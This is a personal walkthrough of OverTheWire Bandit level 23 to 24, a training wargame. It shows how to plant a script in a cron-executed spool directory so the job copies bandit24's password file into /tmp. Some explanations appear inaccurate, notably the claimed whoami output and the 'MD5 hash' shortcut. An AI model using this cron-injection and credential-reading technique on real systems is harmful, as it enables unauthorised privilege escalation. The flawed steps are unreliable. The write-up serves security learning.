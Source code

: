 ```markdown
# Written by: VINOD .N. RATHOD  

# Bandit Walkthrough — Level 23 → Level 24  

# Date: 23-08-2025  

## Objective  
Retrieve the password for bandit24 by analyzing the "cron job" of this level. The cron job executes scripts placed in `/var/spool/bandit24/`.  
```

## **Steps to Solve**

### Step 1 — Check Cron Jobs

1. After logging in as **bandit23**, go to the cron jobs directory:

```bash
   cd /etc/cron.d/
   ls -la
```

Here, you will see `cronjob_bandit24`.

2. Read the contents of the cron job:

```bash
   cat cronjob_bandit24
```

It executes:

```
/usr/bin/cronjob_bandit24.sh
```

3. Inspect the script:

```bash
   cat /usr/bin/cronjob_bandit24.sh
```
The script does the following:

* Sets `myname=$(whoami)` (for this level → bandit23).
* Goes to `/var/spool/`.
* Executes any file named after `$myname`.
* Deletes all files in that directory after execution.

![Cron job exploration, injected script creation](Assets/level-23.1.png)

---

### Step 2 — Inject Our Own Script

Since the cron job runs scripts from `/var/spool/bandit24/`, we can place our own script there.

4. Create a custom working directory:

```bash
   mkdir /tmp/Ignite123
   cd /tmp/Ignite123
   nano bandit24.sh
```

5. Inside `bandit24.sh`, write the following:

```bash
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 >> /tmp/Ignite123/level24
```

* This script will read the password of bandit24 and store it in `/tmp/Ignite123/level24`.

6. Make the script executable and move it into `/var/spool/bandit24/`:

```bash
   chmod 777 bandit24.sh 
   cp bandit24.sh /var/spool/bandit24/
   chmod 777 /tmp/Ignite123
```

7. Wait a short while for the cron job to execute. Then check your directory:

```bash
   ls
   cat level24
```

You will see the password for **bandit24**.

![Password retrieval](Assets/level-23.png)


---

### Alternative (Faster Method)

Instead of injecting a script, we can reuse the **MD5 hash trick** from earlier levels:

8. Generate the hash for `"I am user bandit24"`:

```bash
   echo I am user bandit24 | md5sum | cut -d ' ' -f 1
```

This gives:

```
ee4ee1703b083edac9f8183e4ae70293
```

9. Use the hash to directly read the password file in `/tmp`:

```bash
   cat /tmp/ee4ee1703b083edac9f8183e4ae70293
```

---

### Final Step — Connect as bandit24

10. With the retrieved password, log in as **bandit24**:

```bash
   ssh bandit24@bandit.labs.overthewire.org -p 2220
```

## **Outcome**

* Understood how the cron job executes user-based scripts.
* Learned two methods:

  1. Writing a custom script in `/var/spool/bandit24/`.
  2. Using the **MD5 hash shortcut** to directly locate the password file.
* Successfully retrieved the password for **bandit24**.

---

# THANK YOU!

# \~ **V1NNN22** \~



